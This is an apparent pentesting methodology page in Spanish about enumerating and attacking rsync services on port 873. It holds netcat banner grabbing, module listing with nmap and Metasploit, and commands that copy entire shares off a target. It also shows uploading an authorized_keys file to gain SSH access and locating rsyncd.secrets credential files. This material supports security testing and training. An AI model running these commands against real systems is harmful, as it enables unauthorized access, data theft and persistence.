 ## **Información Básica**

> **rsync** es una utilidad para transferir y sincronizar archivos de manera eficiente entre una computadora y un disco duro externo, y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. Se encuentra comúnmente en sistemas operativos similares a Unix. El algoritmo de rsync es un tipo de codificación delta y se utiliza para minimizar el uso de la red. Zlib se puede utilizar para compresión de datos adicional, y SSH o stunnel se pueden utilizar para seguridad.

De [wikipedia](https://en.wikipedia.org/wiki/Rsync).

**Puerto predeterminado:** 873
```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```
## Enumeración

### Banner y comunicación manual
```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```
### **Enumerar carpetas compartidas**

**Un módulo de rsync es esencialmente una carpeta compartida**. Estos módulos **pueden estar protegidos opcionalmente por una contraseña**. Esta opción lista los módulos disponibles y, opcionalmente, determina si el módulo requiere una contraseña para acceder\*\*:\*\*
```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```
Ten en cuenta que se podría configurar un nombre compartido para que no se liste. Así que podría haber algo **oculto**.\
Ten en cuenta que puede haber algunos **nombres compartidos** que se enumeran donde se necesitan algunas (diferentes) **credenciales** para acceder. Así que no siempre todos los nombres listados van a ser accesibles y lo notarás si recibes un mensaje de _**"Acceso denegado"**_ al intentar acceder a algunos de ellos.

### [**Fuerza bruta**](../generic-methodologies-and-resources/brute-force.md#rsync)

### Rsync manual

Una vez que tienes la **lista de módulos**, tienes algunas opciones diferentes dependiendo de las acciones que quieras tomar y si se requiere autenticación o no. **Si no se requiere autenticación**, puedes **enumerar** una carpeta compartida:
```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```
Y **copiar** todos los **archivos** a tu máquina local mediante el siguiente comando:
```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```
Esto **transfiere recursivamente todos los archivos del directorio** `<shared_name>` en la máquina `<IP>` al directorio `./rsync_shared` en la máquina local. Los archivos se transfieren en modo "archivo", lo que garantiza que los enlaces simbólicos, dispositivos, atributos, permisos, propietarios, etc. se conserven en la transferencia.

Si **tienes credenciales**, puedes **listar/descargar** un **nombre compartido** usando (se solicitará la contraseña):
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```
También se puede **subir** contenido utilizando rsync (por ejemplo, en este caso podemos subir un archivo _**authorized\_keys**_ para obtener acceso a la caja):
```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```
## POST

Encuentra el archivo de configuración de rsyncd:
```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
Dentro del archivo de configuración a veces se puede encontrar el parámetro _secrets file = /path/to/file_ y este archivo puede contener nombres de usuario y contraseñas permitidos para autenticarse en rsyncd.
